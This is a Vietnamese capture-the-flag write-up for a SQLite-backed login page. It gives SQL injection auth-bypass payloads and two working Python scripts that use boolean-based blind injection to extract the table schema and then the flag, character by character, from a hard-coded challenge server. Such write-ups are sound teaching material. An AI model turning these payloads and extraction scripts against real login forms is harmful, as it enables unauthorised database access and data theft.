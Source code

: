 # Overview
1. Khi ta dùng `username=guest&passwd=guest` thì sẽ output ra cho ta là: `Nothing special here. Maybe an admin account will work?`
2. Khi ta inject: `username=admin'+or+'1'='1&passwd=guest` thì nó vẫn hiện ra output tương tự như trên.
3. Khi ta inject: `username=admin'--&passwd=guest` thì nó output là: `Well done login as admin, but the flag is in another castle`
4. còn nếu inject username sai thì nó sẽ output: `Wrong username or password. Are you a hackẻ?`
=> Bài này sẽ rẽ theo hướng Boolean Base SQLi, vì nó chỉ output ra cho ta kết quả đúng hoặc sai thôi.
Bài này theo hướng error base sẽ hay hơn vì nó hiện error cho chúng ta khi query lỗi. Nhưng mình chọn Boolean Base cho dễ.
# Solution
1. Table này có 2 cột. 
`username=admin'+order+by+2--&passwd=guest`
Và để ý, khi mình `order by 3` nó sẽ output ra lỗi của SQLite.
2. Giờ mình sẽ lấy câu query trong SQLite.
```python
import requests
from string import printable
url = 'http://61.28.237.24:30100/'

sql = ''

for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t\t\t\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(sql,{i},1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 1) = char({j}) --",
            "passwd": "guest"
        })
        if "Nothing" in resp.text:
            sql += chr(j)
            print(f"query = {sql}")
            break
```
Vì đề có 2 table nên mình sẽ chỉ lấy câi sql của table flag thôi.

![image](https://user-images.githubusercontent.com/46492646/119289912-be031280-bc75-11eb-9508-a71b3118e088.png)

Có table, column rồi thì lấy flag ra thôi.
```python
import requests
from string import printable
url = 'http://61.28.237.24:30100/'

sql = 'CREATE TABLE flagtablewithrandomname(flag)'
flag = ''

for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t\t\t\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"query = {flag}")
            break
```

![image](https://user-images.githubusercontent.com/46492646/119290229-5600fc00-bc76-11eb-9819-edededa8c949.png)

